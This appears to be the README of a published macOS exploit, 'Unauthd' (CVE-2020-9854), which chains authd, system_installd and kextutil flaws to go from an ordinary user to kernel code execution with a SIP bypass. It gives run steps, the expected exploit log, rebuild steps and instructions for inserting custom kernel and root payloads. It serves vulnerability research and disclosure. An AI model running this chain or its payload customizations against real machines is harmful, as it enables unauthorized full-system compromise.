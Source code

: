 #  Unauthd (CVE-2020–9854)

A local privilege escalation chain from user to kernel for MacOS < 10.15.5. 

## How does it work? 

I wrote a blogpost explaining the vulnerabilities and exploitation methods I used. It can be found [here](https://objective-see.com/blog/blog_0x4D.html).

## How do I use it?

Build and run the `unauthd` target in the included xcode project. It will hijack the `acfs.kext` print a message to the kernel log and register the `debug.A2nkF.pwned` sysctl.
Run `sysctl debug.A2nkF.pwned` to verify, that the exploit has worked. 
This is the expected output:

```
~$ sysctl debug.A2nkF.pwned
debug.A2nkF.pwned: --- Kernel pwned ---
```

And this is the expected exploit output:
```
[~] Fakesigning myself with entitlements...
[+] Done!
[+] Got authorization!
[~] Requesting rights...
[*] Copy rights returned 0
[+] Success!
[~] Preparing Stage2...
[+] Logger registerd!
[~] Installing Payload...
[+] Package created!
[~] Sending install request now!
[+] Logger started! Waiting for stage 2... 
[STAGE2] [*] Stage started!
[STAGE2] [+] Running as uid 0x0
[STAGE2] [+] SIP bypassed ;) Preparing Stage 3...
[STAGE2] [~] Getting kext!
[STAGE2] [1] Started kextutil...
[STAGE2] [2] Performed overwrite...
[STAGE2] [3] Loading kext...
[STAGE2] [3] Running kext...
[STAGE2] [+] Kernel pwned!
[STAGE2] [~] Cleaning up our mess... 
[FINAL] [+] Done!
```

The exploit has been tested on:
```
Darwin MacBookPro.local 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64 x86_64
```

## Hacking

You might have noticed, that the system preferences window pops up after the exploit has run. Just add a 
```c
while(1) {}
```
after the call to `loadKext()` in `stage2/main.c` to avoid that.

If you want to modify the exploit, here's what you need to know:

### Building

The XCode project has three build targets: `unauthd`, `kernel` and `stage2`.
After applying your changes:

1. Build the `kernel` target and copy the binary over to `/kernel` on `Disk.dmg`
2. Build the `stage2` target and copy the binary over to `/System/Library/CoreServices/Applications/Feedback Assistant.app/Contents/Library/LaunchServices/seedusaged` on `Disk.dmg`
3. Build and run the `unauthd` target

### Payloads

**Custom kernel payload**:
Add a custom payload to `kernel/kernel.c`. Note: You might need to change the  `VICTIM_KEXT` variable in `stage2/main.c` to a 
kext that is linked with the symbols you require, or do the symbol resolving dynamically.

**Custom SIPless root payload**: 
Add a custom payload to `stage2/main.c` after the call to `loadKext()`.

**Custom authd payload**:
This part is a bit more tricky, you'll need to reverse engineer the framework implementing the APIs for a desired right, implement a client module in `unauthd/modules/<yourmodule>.m` and call it from `unauthd/main.m`. 

### Files

`kernel`: Kernel Payload 

`resources`: Malicious DMG, entitlements and exploitable apple signed PKG

`stage2`: `kextutil` exploit + minimal mach logger client

`unauthd`: `authd` and `system_installd` exploit + minimal mach logger server

`unauthd/modules`: clients for private frameworks
